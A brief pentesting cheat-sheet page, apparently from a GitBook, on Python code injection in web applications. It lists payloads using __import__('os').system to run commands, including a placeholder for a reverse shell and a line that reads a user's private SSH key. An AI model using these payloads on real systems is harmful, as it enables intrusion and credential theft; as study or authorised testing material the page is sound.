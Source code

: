 # Python Code Injection

{% embed url="https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html" %}

Suppose that you have the following command.&#x20;

<figure><img src="../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

You may be able to insert the following payloads.&#x20;

```bash
# Code execution
__import__('os').system('id')
__import__('os').system('reverse shell command,etc...')
# or sensitve information leakage
__import__('os').system('cat /home/developer/.ssh/id_rsa')
```

Running this shell with the code execution, you could get a shell with a developer privilege.&#x20;
